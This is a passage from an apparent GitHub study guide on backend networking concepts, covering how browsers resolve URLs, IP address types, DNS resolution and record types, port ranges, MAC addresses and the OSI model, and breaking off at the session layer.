










<!-- TOC start (generated with https://github.com/derlin/bitdowntoc) -->

- [Networking](#networking)
   * [How does a browser render a URL?](#how-does-a-browser-render-a-url)
   * [IP](#ip)
   * [Domain Name System (DNS)](#domain-name-system-dns)
   * [Ports](#ports)
   * [MAC Address](#mac-address)
   * [OSI Model](#osi-model)
   * [TCP and UDP](#tcp-and-udp)
   * [TCP vs UDP](#tcp-vs-udp)
   * [Network Packet](#network-packet)
   * [Application layer protocols - HTTP, SSL, HTTPS, HTTP/2](#application-layer-protocols---http-ssl-https-http2)
   * [Long Polling](#long-polling)
   * [Web Sockets](#web-sockets)
   * [Server-Sent Events (SSE)](#server-sent-events-sse)
- [APIs](#apis)
   * [REST APIs](#rest-apis)
   * [GraphQL](#graphql)
   * [gRPC](#grpc)
   * [REST vs GraphQL vs gRPC](#rest-vs-graphql-vs-grpc)
   * [Idempotency](#idempotency)
- [Security](#security)
   * [Cookies](#cookies)
   * [Types of Security Threats](#types-of-security-threats)
   * [Encryption - Decryption](#encryption---decryption)
   * [OAuth 2.0](#oauth-20)
   * [OpenID Connect](#openid-connect)
   * [Single Sign-On (SSO)](#single-sign-on-sso)
   * [SSL, TLS, mTLS](#ssl-tls-mtls)

<!-- TOC end -->


# Networking


## How does a browser render a URL?

When you enter a URL into your web browser, a series of processes occur behind the scenes that eventually lead to the display of the webpage. This process is commonly known as the request-response cycle.

1. #### Domain Name Resolution

   - When a user enters a URL in the browser, the first step is to translate the URL into an IP address that can be understood by the internet. This process is called domain name resolution. The browser checks its cache to see if it has the IP address of the domain name. If the browser does not have the IP address, it sends a request to the domain name server (DNS) to get the IP address.

   - For example, if you enter "www.google.com" in your browser, the browser will first check its cache to see if it has the IP address of the domain name. If it doesn’t have the IP address, the browser will send a request to the DNS to get the IP address.

2. #### Establishing a Connection with the Server
   - Once the browser has the IP address of the domain name, it establishes a connection with the server that hosts the website. The browser sends a request to the server using the Hypertext Transfer Protocol (HTTP) or the secure version of it, HTTPS. The request typically includes the type of request (GET, POST, PUT, DELETE), the URL, and some optional parameters.

   - For example, if you enter "www.google.com" in your browser, the browser will establish a connection with the Google server and send an HTTP GET request to retrieve the homepage of Google.
   
3. #### Server Processing
   - When the server receives the request from the browser, it processes the request and prepares a response. The server typically retrieves the requested resource from its database, generates the HTML, and includes any additional resources such as images or scripts that are required to display the webpage.

   - For example, when the Google server receives the request for the homepage, it retrieves the HTML, JavaScript, CSS, and other resources required to display the Google homepage.

4. #### Sending the Response
   - Once the server has generated the response, it sends it back to the browser through the same connection that was established earlier. The response typically includes the status code, the content of the requested resource, and any additional resources that were requested.

   - For example, when the Google server generates the response for the homepage, it sends it back to the browser through the same connection that was established earlier. The response includes the HTML, JavaScript, CSS, and other resources required to display the Google homepage.

5. #### Rendering the Webpage
   - When the browser receives the response from the server, it begins to render the webpage. The browser parses the HTML, applies the CSS styles, and executes any JavaScript code that is included in the webpage. The browser then displays the webpage on the user’s screen.

   - For example, when the browser receives the response from the Google server, it begins to render the Google homepage by parsing the HTML, applying the CSS styles, and executing the JavaScript code. The browser then displays the Google homepage on the user’s screen.

## IP

An IP address is a unique address that identifies a device on the internet or a local network. IP stands for _"Internet Protocol"_, which is the set of rules governing the format of data sent via the internet or local network.

In essence, IP addresses are the identifier that allows information to be sent between devices on a network. They contain location information and make devices accessible for communication. The internet needs a way to differentiate between different computers, routers, and websites. IP addresses provide a way of doing so and form an essential part of how the internet works.

### Versions

Now, let's learn about the different versions of IP addresses:

#### IPv4

The original Internet Protocol is IPv4 which uses a 32-bit numeric dot-decimal notation that only allows for around 4 billion IP addresses. Initially, it was more than enough but as internet adoption grew, we needed something better.

_Example: `102.22.192.181`_

#### IPv6

IPv6 is a new protocol that was introduced in 1998. Deployment commenced in the mid-2000s and since the internet users have grown exponentially, it is still ongoing.

This new protocol uses 128-bit alphanumeric hexadecimal notation. This means that IPv6 can provide about ~340e+36 IP addresses. That's more than enough to meet the growing demand for years to come.

_Example: `2001:0db8:85a3:0000:0000:8a2e:0370:7334`_

### Types

Let's discuss types of IP addresses:

#### Public

A public IP address is an address where one primary address is associated with your whole network. In this type of IP address, each of the connected devices has the same IP address.

_Example: IP address provided to your router by the ISP._

#### Private

A private IP address is a unique IP number assigned to every device that connects to your internet network, which includes devices like computers, tablets, and smartphones, which are used in your household.

_Example: IP addresses generated by your home router for your devices._

#### Static

A static IP address does not change and is one that was manually created, as opposed to having been assigned. These addresses are usually more expensive but are more reliable.

_Example: They are usually used for important things like reliable geo-location services, remote access, server hosting, etc._

#### Dynamic

A dynamic IP address changes from time to time and is not always the same. It has been assigned by a [Dynamic Host Configuration Protocol (DHCP)](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol) server. Dynamic IP addresses are the most common type of internet protocol address. They are cheaper to deploy and allow us to reuse IP addresses within a network as needed.

_Example: They are more commonly used for consumer equipment and personal use._

## Domain Name System (DNS)

Earlier we learned about IP addresses that enable every machine to connect with other machines. But as we know humans are more comfortable with names than numbers. It's easier to remember a name like `google.com` than something like `122.250.192.232`.

This brings us to Domain Name System (DNS) which is a hierarchical and decentralized naming system used for translating human-readable domain names to IP addresses.

### How DNS works



DNS lookup involves the following eight steps:

1. A client types [example.com](http://example.com) into a web browser, the query travels to the internet and is received by a DNS resolver.
2. The resolver then recursively queries a DNS root nameserver.
3. The root server responds to the resolver with the address of a Top-Level Domain (TLD).
4. The resolver then makes a request to the `.com` TLD.
5. The TLD server then responds with the IP address of the domain's nameserver, [example.com](http://example.com).
6. Lastly, the recursive resolver sends a query to the domain's nameserver.
7. The IP address for [example.com](http://example.com) is then returned to the resolver from the nameserver.
8. The DNS resolver then responds to the web browser with the IP address of the domain requested initially.

Once the IP address has been resolved, the client should be able to request content from the resolved IP address. For example, the resolved IP may return a webpage to be rendered in the browser.

### Server types

Now, let's look at the four key groups of servers that make up the DNS infrastructure.

#### DNS Resolver

A DNS resolver (also known as a DNS recursive resolver) is the first stop in a DNS query. The recursive resolver acts as a middleman between a client and a DNS nameserver. After receiving a DNS query from a web client, a recursive resolver will either respond with cached data, or send a request to a root nameserver, followed by another request to a TLD nameserver, and then one last request to an authoritative nameserver. After receiving a response from the authoritative nameserver containing the requested IP address, the recursive resolver then sends a response to the client.

#### DNS root server

A root server accepts a recursive resolver's query which includes a domain name, and the root nameserver responds by directing the recursive resolver to a TLD nameserver, based on the extension of that domain (`.com`, `.net`, `.org`, etc.). The root nameservers are overseen by a nonprofit called the [Internet Corporation for Assigned Names and Numbers (ICANN)](https://www.icann.org).

There are 13 DNS root nameservers known to every recursive resolver. Note that while there are 13 root nameservers, that doesn't mean that there are only 13 machines in the root nameserver system. There are 13 types of root nameservers, but there are multiple copies of each one all over the world, which use [Anycast routing](https://en.wikipedia.org/wiki/Anycast) to provide speedy responses.

#### TLD nameserver

A TLD nameserver maintains information for all the domain names that share a common domain extension, such as `.com`, `.net`, or whatever comes after the last dot in a URL.

Management of TLD nameservers is handled by the [Internet Assigned Numbers Authority (IANA)](https://www.iana.org), which is a branch of [ICANN](https://www.icann.org). The IANA breaks up the TLD servers into two main groups:

- **Generic top-level domains**: These are domains like `.com`, `.org`, `.net`, `.edu`, and `.gov`.
- **Country code top-level domains**: These include any domains that are specific to a country or state. Examples include `.uk`, `.us`, `.ru`, and `.jp`.

#### Authoritative DNS server

The authoritative nameserver is usually the resolver's last step in the journey for an IP address. The authoritative nameserver contains information specific to the domain name it serves (e.g. [google.com](http://google.com)) and it can provide a recursive resolver with the IP address of that server found in the DNS A record, or if the domain has a CNAME record (alias) it will provide the recursive resolver with an alias domain, at which point the recursive resolver will have to perform a whole new DNS lookup to procure a record from an authoritative nameserver (often an A record containing an IP address). If it cannot find the domain, returns the NXDOMAIN message.

### Query Types

There are three types of queries in a DNS system:

#### Recursive

In a recursive query, a DNS client requires that a DNS server (typically a DNS recursive resolver) will respond to the client with either the requested resource record or an error message if the resolver can't find the record.

#### Iterative

In an iterative query, a DNS client provides a hostname, and the DNS Resolver returns the best answer it can. If the DNS resolver has the relevant DNS records in its cache, it returns them. If not, it refers the DNS client to the Root Server or another Authoritative Name Server that is nearest to the required DNS zone. The DNS client must then repeat the query directly against the DNS server it was referred.

#### Non-recursive

A non-recursive query is a query in which the DNS Resolver already knows the answer. It either immediately returns a DNS record because it already stores it in a local cache, or queries a DNS Name Server which is authoritative for the record, meaning it definitely holds the correct IP for that hostname. In both cases, there is no need for additional rounds of queries (like in recursive or iterative queries). Rather, a response is immediately returned to the client.

### Record Types

DNS records (aka zone files) are instructions that live in authoritative DNS servers and provide information about a domain including what IP address is associated with that domain and how to handle requests for that domain.

These records consist of a series of text files written in what is known as _DNS syntax_. DNS syntax is just a string of characters used as commands that tell the DNS server what to do. All DNS records also have a _"TTL"_, which stands for time-to-live, and indicates how often a DNS server will refresh that record.

There are more record types but for now, let's look at some of the most commonly used ones:

- **A (Address record)**: This is the record that holds the IP address of a domain.
- **AAAA (IP Version 6 Address record)**: The record that contains the IPv6 address for a domain (as opposed to A records, which stores the IPv4 address).
- **CNAME (Canonical Name record)**: Forwards one domain or subdomain to another domain, does NOT provide an IP address.
- **MX (Mail exchanger record)**: Directs mail to an email server.
- **TXT (Text Record)**: This record lets an admin store text notes in the record. These records are often used for email security.
- **NS (Name Server records)**: Stores the name server for a DNS entry.
- **SOA (Start of Authority)**: Stores admin information about a domain.
- **SRV (Service Location record)**: Specifies a port for specific services.
- **PTR (Reverse-lookup Pointer record)**: Provides a domain name in reverse lookups.
- **CERT (Certificate record)**: Stores public key certificates.

### Subdomains

A subdomain is an additional part of our main domain name. It is commonly used to logically separate a website into sections. We can create multiple subdomains or child domains on the main domain.

For example, `blog.example.com` where `blog` is the subdomain, `example` is the primary domain and `.com` is the top-level domain (TLD). Similar examples can be `support.example.com` or `careers.example.com`.

### DNS Zones

A DNS zone is a distinct part of the domain namespace which is delegated to a legal entity like a person, organization, or company, who is responsible for maintaining the DNS zone. A DNS zone is also an administrative function, allowing for granular control of DNS components, such as authoritative name servers.

### DNS Caching

A DNS cache (sometimes called a DNS resolver cache) is a temporary database, maintained by a computer's operating system, that contains records of all the recent visits and attempted visits to websites and other internet domains. In other words, a DNS cache is just a memory of recent DNS lookups that our computer can quickly refer to when it's trying to figure out how to load a website.

The Domain Name System implements a time-to-live (TTL) on every DNS record. TTL specifies the number of seconds the record can be cached by a DNS client or server. When the record is stored in a cache, whatever TTL value came with it gets stored as well. The server continues to update the TTL of the record stored in the cache, counting down every second. When it hits zero, the record is deleted or purged from the cache. At that point, if a query for that record is received, the DNS server has to start the resolution process.

### Reverse DNS

A reverse DNS lookup is a DNS query for the domain name associated with a given IP address. This accomplishes the opposite of the more commonly used forward DNS lookup, in which the DNS system is queried to return an IP address. The process of reverse resolving an IP address uses PTR records. If the server does not have a PTR record, it cannot resolve a reverse lookup.

Reverse lookups are commonly used by email servers. Email servers check and see if an email message came from a valid server before bringing it onto their network. Many email servers will reject messages from any server that does not support reverse lookups or from a server that is highly unlikely to be legitimate.

_Note: Reverse DNS lookups are not universally adopted as they are not critical to the normal function of the internet._

### Examples

These are some widely used managed DNS solutions:

- [Route53](https://aws.amazon.com/route53)
- [Cloudflare DNS](https://www.cloudflare.com/dns)
- [Google Cloud DNS](https://cloud.google.com/dns)
- [Azure DNS](https://azure.microsoft.com/en-in/services/dns)
- [NS1](https://ns1.com/products/managed-dns)

## Ports

In computer networking, a port is a virtual communication endpoint that allows multiple applications or services to utilize a single network interface. Ports act as gateways, enabling the transmission of data between different processes on a computer or across a network. Each port is associated with a specific number, known as a port number, which serves as a unique identifier for a particular service or application.

### Port Numbers and Their Categories:

#### Well-Known Ports:

Well-known ports range from 0 to 1023 and are reserved for commonly used services and protocols. These ports are standardized by the Internet Assigned Numbers Authority (IANA). For example:

   - **Port 80**: This is the well-known port for Hypertext Transfer Protocol (HTTP), the protocol used for web browsing. When you type a URL into your web browser, it connects to the web server using port 80 (or port 443 for secure HTTP connections).
   - **Port 25**: This port is used for Simple Mail Transfer Protocol (SMTP), the protocol for email transmission between mail servers.
   - **Port 22**: This port is reserved for Secure Shell (SSH), a cryptographic network protocol used for secure remote login and command execution.

#### Registered Ports:

Registered ports range from 1024 to 49151 and are used by applications and services that are not as widely recognized as those using well-known ports. These ports can be registered with the IANA by organizations developing specific applications or services. Examples of registered ports include:

   - **Port 3306**: This port is commonly used by the MySQL database management system.
   - **Port 5432**: This port is used by the PostgreSQL database management system.
   - **Port 8080**: This port is often used as an alternative to port 80 for web servers.

#### Dynamic or Private Ports:

Dynamic or private ports range from 49152 to 65535 and are used for temporary connections or dynamic allocation by client applications. These ports are typically assigned by the operating system when an application initiates a network connection. For example, when you open a web browser and visit a website, your computer may use a dynamic port to establish the connection.

### Port Usage:

   - **Service Access:** Backend applications often expose services through specific ports to allow external systems or clients to communicate with them. For instance, a web server might listen on port 80 for incoming HTTP requests, while an API server might use port 443 for secure HTTPS communication.
   - ****Load Balancing:**** In scenarios where high availability and scalability are crucial, load balancers distribute incoming network traffic across multiple backend servers. Load balancers listen on specific ports, such as 80 or 443, and forward incoming requests to backend servers using different ports or protocols.
   - **Database Connections:** Databases are essential components of many backend systems. When connecting to a database, the backend application typically uses a specific port associated with the database management system being used, such as MySQL (port 3306) or PostgreSQL (port 5432).
   - **Inter-Service Communication:** In microservices architectures, different services need to communicate with each other. Ports enable service-to-service communication, where each service listens on a specific port to receive requests or data from other services.

## MAC Address

MAC (Media Access Control) address, also known as a hardware address or physical address, is a unique identifier assigned to a network interface card (NIC) or network adapter. It is a combination of letters and numbers, usually represented in a six-byte format, such as 00:1A:2B:3C:4D:5E. MAC addresses are assigned by the manufacturer and are hardcoded into the hardware, making them globally unique for each device.

MAC addresses serve two primary functions: identifying network devices and enabling communication within local networks.

Suppose you have a local network with three devices: a computer, a printer, and a router. Each device has a unique MAC address:

   - Computer: MAC address 00:11:22:33:44:55

   - Printer: MAC address 00:AA:BB:CC:DD:EE

   - Router: MAC address 11:22:33:44:55:66

When the computer wants to send a print job to the printer, it uses the printer's MAC address to ensure the data reaches the correct destination. The computer encapsulates the data in a network packet, including the MAC address of the printer as the destination MAC address. The router, which operates at the network layer, uses other addressing schemes, such as IP addresses, to route the packet between different networks.

It's important to note that MAC addresses operate at the data link layer (Layer 2) of the OSI model and are specific to local networks. They are not routable across the internet. In internet communication, higher-level protocols, such as IP addresses, are used for routing data.

## OSI Model

The OSI Model is a logical and conceptual model that defines network communication used by systems open to interconnection and communication with other systems. The Open System Interconnection (OSI Model) also defines a logical network and effectively describes computer packet transfer by using various layers of protocols.

The OSI Model can be seen as a universal language for computer networking. It's based on the concept of splitting up a communication system into seven abstract layers, each one stacked upon the last.

### Why does the OSI model matter?

The Open System Interconnection (OSI) model has defined the common terminology used in networking discussions and documentation. This allows us to take a very complex communications process apart and evaluate its components.

While this model is not directly implemented in the TCP/IP networks that are most common today, it can still help us do so much more, such as:

- Make troubleshooting easier and help identify threats across the entire stack.
- Encourage hardware manufacturers to create networking products that can communicate with each other over the network.
- Essential for developing a security-first mindset.
- Separate a complex function into simpler components.

### Layers

The seven abstraction layers of the OSI model can be defined as follows, from top to bottom:



#### Application

This is the only layer that directly interacts with data from the user. Software applications like web browsers and email clients rely on the application layer to initiate communication. But it should be made clear that client software applications are not part of the application layer, rather the application layer is responsible for the protocols and data manipulation that the software relies on to present meaningful data to the user. Popular application layer protocols include HTTP (Hypertext Transfer Protocol) for web browsing, SMTP (Simple Mail Transfer Protocol) for email, and FTP (File Transfer Protocol) for file transfer.

#### Presentation

The presentation layer is also called the Translation layer. The data from the application layer is extracted here and manipulated as per the required format to transmit over the network. The functions of the presentation layer are translation(conversion into a standard format that the receiving application can understand), encryption/decryption, and compression. For instance, when you send an encrypted email attachment, the presentation layer ensures that the encrypted data is correctly decrypted by the recipient's email client. 

#### Session

